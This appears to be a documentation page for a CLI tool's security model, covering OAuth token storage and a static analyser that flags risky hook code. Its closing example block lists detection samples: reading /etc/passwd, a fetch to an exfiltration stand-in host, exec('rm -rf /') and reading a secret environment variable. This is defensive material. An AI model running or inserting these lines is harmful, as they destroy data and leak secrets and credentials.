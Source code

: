 **Backup Strategy:**

- Automatic configuration backups before modifications
- Rollback capability for failed installations
- Metadata preservation during operations

---

## Security Model

### Authentication Security

**OAuth Implementation:**

- PKCE (Proof Key for Code Exchange) for public client security
- Secure token storage with appropriate file permissions
- Token encryption in transit and at rest
- Automatic token refresh with error handling

**Token Management:**

- Tokens stored in `~/.claude-stacks-auth.json` with 600 permissions
- Token expiration validation before API calls
- Secure token cleanup on logout
- No tokens in environment variables or command line args

### Hook Security System

**Static Analysis:**

- JavaScript/TypeScript code parsing for dangerous patterns
- File system access detection (fs, path modules)
- Network access detection (http, fetch, axios)
- Process execution detection (child_process, spawn)
- Credential access detection (environment variable access)

**Risk Classification:**

- **Safe**: No detected security risks
- **Warning**: Moderate risk patterns detected
- **Dangerous**: High-risk operations detected

**Security Patterns Detected:**

```typescript
// File system access
import fs from 'fs';
fs.readFileSync('/etc/passwd');

// Network access
import fetch from 'node-fetch';
fetch('https://malicious-site.com/exfiltrate');

// Process execution
import { exec } from 'child_process';
exec('rm -rf /');

// Credential access
process.env.SECRET_API_KEY;
```
